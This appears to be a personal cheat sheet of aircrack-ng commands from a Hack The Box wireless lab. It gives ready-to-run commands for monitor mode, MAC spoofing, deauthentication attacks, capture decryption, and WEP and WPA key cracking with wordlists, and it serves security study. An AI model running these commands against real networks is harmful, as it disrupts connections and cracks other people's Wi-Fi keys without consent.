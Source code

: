 
# airmon-ng
```bash
sudo airmon-ng

# kill blockers app
sudo airmon-ng check kill

# enable monitor mode
sudo airmon-ng start wlp61s0
# on 11 channel
sudo airmon-ng start wlp61s0 11

sudo airmon-ng stop wlp61s0mon
```
# change mac
```bash
sudo macchanger wlan0 -m 3E:48:72:B7:62:2A
```
# aireplay-ng
### Test if injection is possible
```bash
sudo iw dev wlp61s0mon set channel 1
sudo aireplay-ng --test wlp61s0mon
```
### Deauthentication attack
Run `airodump-ng`, write out AP and client IDs, then run:
```bash
# 5 - number of deauths to send
sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlp61s0mon
```
Check `airodump-ng` output to see the evidenced by the increase in `Lost` packets and `Frames` count.

# airodump-ng
```bash
sudo airodump-ng wlp61s0mon  

mkdir wifi-dump && cd wifi-dump
# saves dumps to files with prefix HTB
sudo airodump-ng wlan0mon -w HTB
```

### Bands
* a uses 5 GHz
* b uses 2.4 GHz
* g uses 2.4 GHz
```bash
sudo airodump-ng wlan0mon --band a
```

# airgraph-ng
Use files created by airodump-ng:
```bash
# Clients to AP Relationship Graph
sudo airgraph-ng -i HTB-01.csv -g CAPR -o HTB_CAPR.png

# Common Probe Graph
sudo airgraph-ng -i HTB-01.csv -g CPG -o HTB_CPG.png


```
# airdecap-ng
* Removing wireless headers from an open network capture (Unencrypted capture).
* Decrypting a WEP-encrypted capture file using a hexadecimal WEP key.
* Decrypting a WPA/WPA2-encrypted capture file using the passphrase.
### Removing Wireless Headers from Unencrypted Capture file
```bash
sudo airdecap-ng -b 00:14:6C:7A:41:81 opencapture.cap
```
### Decrypting WEP-encrypted captures
```bash
sudo airdecap-ng -w 1234567890ABCDEF HTB-01.cap
```
### Decrypting WPA-encrypted captures
```bash
# -p is password
sudo airdecap-ng -p 'abdefg' HTB-01.cap -e "Wireless Lab"
```

# aircrack-ng
### benchmark
```bash
aircrack-ng -S
```

### Cracking WEP
Collect Initialization Vectors:
```bash
sudo airodump-ng --ivs --write WEP

aircrack-ng -K WEP.ivs
```

### Cracking WPA
 "four-way handshake" serves as the required input. 
Aircrack-ng can effectively operate with just two packets. Specifically, EAPOL packets 2 and 3, or packets 3 and 4, are considered a full handshake.
```bash
sudo aircrack-ng HTB.pcap -w /opt/wordlist.txt
```

